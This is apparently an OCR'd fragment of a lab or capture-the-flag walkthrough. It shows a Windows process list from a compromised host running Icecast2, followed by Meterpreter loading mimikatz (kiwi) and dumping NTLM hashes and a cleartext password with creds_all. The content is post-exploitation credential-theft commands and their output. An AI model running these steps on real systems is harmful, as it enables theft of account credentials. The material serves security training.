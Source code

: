      2120  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
     2196  692   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
     2300  1592  Icecast2.exe          x86   1        Dark-PC\Dark                  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
     2552  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
     2628  604   conhost.exe           x64   1        Dark-PC\Dark                  C:\Windows\System32\conhost.exe
     2840  604   conhost.exe           x64   1        Dark-PC\Dark                  C:\Windows\System32\conhost.exe
     3008  368   powershell.exe        x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe

---

    meterpreter > load kiwi
    Loading extension kiwi...
      .#####.   mimikatz 2.2.0 20191125 (x64/windows)
     .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
     ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
     '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
      '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
    
    Success.

--- 

    meterpreter > creds_all
    [+] Running as SYSTEM
    [*] Retrieving all credentials
    msv credentials
    ===============
    
    Username  Domain   LM                                NTLM                              SHA1
    --------  ------   --                                ----                              ----
    Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb
    
    wdigest credentials
    ===================
    
    Username  Domain     Password
    --------  ------     --------
    (null)    (null)     (null)
    DARK-PC$  WORKGROUP  (null)
    Dark      Dark-PC    Password01!
    
    tspkg credentials
    =================
    